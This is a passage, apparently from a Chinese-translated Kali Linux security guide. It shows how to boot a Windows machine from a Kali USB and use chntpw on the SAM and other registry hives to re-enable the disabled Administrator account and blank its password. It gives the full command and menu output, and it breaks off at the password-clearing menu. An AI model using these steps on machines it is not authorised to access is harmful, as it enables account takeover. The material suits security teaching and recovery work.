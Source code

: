 从 Kali USB 启动后，您将在文件管理器中看到连接的 Windows 驱动器。要针对蜂巢运行`chntpw`，必须使用蜂巢的完整路径，就像 Samdump2 一样。在这里，我们将重新启用禁用的帐户并清空密码，因此我们需要访问 SAM、系统和默认配置单元。为了能够编辑完整的注册表，您需要装载所有配置单元。为了满足我们的需要，我们只需要装载三个并编辑管理员帐户。因此，运行以下命令。由于格式限制，此处的命令有五行。您希望在一行上运行所有这些操作：

```
chntpw -u Administrator -i /media/root/usbdisk/Windows/Windows/System32/config/SAM /media/root/usbdisk/Windows/Windows/System32/config/SYSTEM /media/root/usbdisk/Windows/Windows/System32/config/SECURITY /media/root/usbdisk/Windows/Windows/System32/config/DEFAULT

```

您将看到安装共享的应用程序的输出，然后将看到交互式命令屏幕，如下所示：

```
<>========<> chntpw Main Interactive Menu <>========<>

Loaded hives: </media/root/usbdisk/Windows/Windows/System32/config/SAM> </media/root/usbdisk/Windows/Windows/System32/config/SYSTEM> </media/root/usbdisk/Windows/Windows/System32/config/SECURITY> </media/root/usbdisk/Windows/Windows/System32/config/DEFAULT>

 1 - Edit user data and passwords
 2 - List groups
 - - -
 9 - Registry editor, now with full write support!
 q - Quit (you will be asked if there is something to save)

```

在这里，我们输入一个`1`来编辑用户数据和密码：

```
What to do? [1] -> 1

===== chntpw Edit User Info & Passwords ====

| RID -|---------- Username ------------| Admin? |- Lock? --|
| 01f4 | Administrator                  | ADMIN  | dis/lock |
| 01f5 | Guest                          |        | dis/lock |
| 03e9 | onelove                        | ADMIN  |          |

```

在这里，我们进入`Administrator`（`01f4`的 RID。然后，我们可以查看此帐户的设置。我们看到该帐户已被禁用。我们需要改变这一点：

```
Please enter user number (RID) or 0 to exit: [3e9] 01f4
================= USER EDIT ====================

RID     : 0500 [01f4]
Username: Administrator
fullname: 
comment : Built-in account for administering the computer/domain
homedir : 

00000220 = Administrators (which has 2 members)

Account bits: 0x0215 =
[X] Disabled        | [ ] Homedir req.    | [X] Passwd not req. | 
[ ] Temp. duplicate | [X] Normal account  | [ ] NMS account     | 
[ ] Domain trust ac | [ ] Wks trust act.  | [ ] Srv trust act   | 
[X] Pwd don't expir | [ ] Auto lockout    | [ ] (unknown 0x08)  | 
[ ] (unknown 0x10)  | [ ] (unknown 0x20)  | [ ] (unknown 0x40)  | 

Failed login count: 0, while max tries is: 0
Total  login count: 13

- - - - User Edit Menu:
 1 - Clear (blank) user password
```